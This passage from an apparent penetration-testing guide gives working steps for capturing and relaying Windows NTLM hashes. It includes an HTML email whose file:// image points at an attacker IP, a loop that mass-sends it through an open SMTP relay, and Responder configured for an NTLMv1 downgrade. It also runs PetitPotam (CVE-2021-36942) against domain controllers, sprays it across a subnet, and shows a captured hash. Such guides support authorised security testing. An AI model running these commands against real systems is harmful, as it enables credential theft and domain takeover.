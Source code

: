 First, configure your system to capture hashes (Responder) or relay (Impacket ntlmrelayx.py). Put recipient email addresses in file emailaddresses.txt.

Content of msg-body.txt:

```
<p>Hello,</p>
<p>[Insert name/company here] is testing for an open SMTP relay. Please forward this to me once you receive it.</p>
<p>Regards,</p>
<p>[Name]</p>
<p>Security Consultant, Penetration Testing</p>
<p>[Company]</p>
<p>[phone]</p>
<p>[email address]</p>
<p><img src="file://[Attacker IP address]/pic.jpg" alt="Download Images" /></p>
```

In the terminal, run:

`while read -r line;do sendemail -f [from address] -t $line -u "Open SMTP relay test via SMTP server $line" -o message-file=msg-body.txt message-content-type=html -s [IP address]:25;done <emailaddresses.txt`

Check Responder/Ntlmrelayx for hashes. Also, ask your point of contact to forward the email, if it resulted in capturing hashes.

## Testing for NTLMv1 and Unauthenticated PetitPotam (CVE-2021-36942)

### Testing Domain Controllers

If this works, you could get DA quickly!

Edit Responder's configuration file at /usr/share/responder/Responder.conf. Change the "Challenge" from random to 1122334455667788

```
Challenge = 1122334455667788
```

Run Responder: `sudo responder -I [interface] --lm --disable-ess`

Run [PetitPotam](https://github.com/topotam/PetitPotam): `python3 PetitPotam.py [listener IP address] [target IP address (Domain Controller)]`

**Note: If the DC is patched and PetitPotam fails but you have ANY domain credentials, see:** [NTLMv1 Enabled?](#ntlmv1-enabled)

You can also spray PetitPotam across a network address using:

```
for i in `seq 1 254`; do python3 PetitPotam.py 192.168.56.118 "192.168.56.$i"; done
```
If you capture a NetNTLMv1 hash without SSP like this:

```
[SMB] NTLMv1 Client   : 192.168.56.12
[SMB] NTLMv1 Username : ESSOS\MEEREEN$
[SMB] NTLMv1 Hash     : MEEREEN$::ESSOS:AF9034E5E4FBA5C95E3E9B515731A6B754167236C0FF8EA9:AF9034E5E4FBA5C95E3E9B515731A6B754167236C0FF8EA9:1122334455667788
```

